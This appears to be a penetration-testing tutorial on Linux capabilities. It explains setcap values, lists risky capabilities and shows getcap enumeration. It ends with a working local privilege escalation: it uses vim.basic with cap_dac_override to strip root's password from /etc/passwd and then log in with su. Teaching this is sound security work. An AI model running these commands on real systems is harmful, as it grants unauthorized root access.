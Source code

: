 Linux capabilities are a security feature in the Linux operating system that allows specific privileges to be granted to processes, allowing them to perform specific actions that would otherwise be restricted. This allows for more fine-grained control, making it more secure then the traditional Unix model of granting privileges to users and groups.

One common vulnerability is using capabilities to grant privileges to processes that are not adequately sandboxed or isolated from other processes, allowing us to escalate their privileges and gain access to sensitive information or perform unauthorized actions.

Another potential vulnerability is the misuse or overuse of capabilities. We might be able to exploit the processes privileges.

Overall, Linux capabilities can be a practical security feature, but they must be used carefully and correctly to avoid vulnerabilities and potential exploits.

In Ubuntu, we can use the `setcap` command to set capabilities for specific executables. This command allows us to specify the capability we want to set and the value we want to assign.

For example, we could use the following command to set the `cap_net_bind_service` capability for an executable:

### Set Capability
```shell-session
$ sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```

With the `cap_net_bind_service` capability set, the binary will be able to bind to network ports, which is a privilege usually restricted.

It is crucial to set vulnerable capabilities for properly sandboxed and isolated executables and avoiding granting them unnecessarily.

| **Capability**         | **Description**                                                                                                                                           |
| ---------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cap_sys_admin`        | Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.                                     |
| `cap_sys_chroot`       | Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.            |
| `cap_sys_ptrace`       | Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes. |
| `cap_sys_nice`         | Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.               |
| `cap_sys_time`         | Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.                |
| `cap_sys_resource`     | Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.       |
| `cap_sys_module`       | Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.      |
| `cap_net_bind_service` | Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.                         |
|                        |                                                                                                                                                           |

When a binary is executed with capabilities, it can perform the actions that the capabilities allow.

Here are some examples of values that we can use with the `setcap` command, along with a brief description of what they do:

| **Capability Values** | **Description**                                                                                                                                                                                                                                                                                                                                                                                                              |
| --------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `=`                   | This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.                                                                                                                                                                                                                                       |
| `+ep`                 | This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.                                                                                                                                                   |
| `+ei`                 | This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.                                                                                                                                   |
| `+p`                  | This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it |

Several Linux capabilities can be used to escalate a user's privileges to `root`, including:

|**Capability**|**Desciption**|
|---|---|
|`cap_setuid`|Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.|
|`cap_setgid`|Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.|
|`cap_sys_admin`|This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems.|
|`cap_dac_override`|Allows bypassing of file read, write, and execute permission checks.|

## Enumerating Capabilities

To enumerate all existing capabilities for all existing binary executables on a Linux system, we can use the following command:
```shell-session
$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

## Exploitation

If we gained access to the system with a low-privilege account, then discovered the `cap_dac_override` capability:

### Exploiting Capabilities
```shell-session
$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

Because the binary as the `cap_dac_override` capability set, it can escalate the privileges of the user who runs it. This would allow the penetration tester to gain the `cap_dac_override` capability and perform tasks that require this capability.

Let us take a look at the `/etc/passwd` file where the user `root` is specified:
```shell-session
$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

We can use the `cap_dac_override` capability of the `/usr/bin/vim` binary to modify a system file:
```shell-session
$ /usr/bin/vim.basic /etc/passwd
```

We also can make these changes in a non-interactive mode:
```shell-session
$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```

Now, we can see that the `x` in that line is gone, which means that we can use the command `su` to log in as root without being asked for the password.
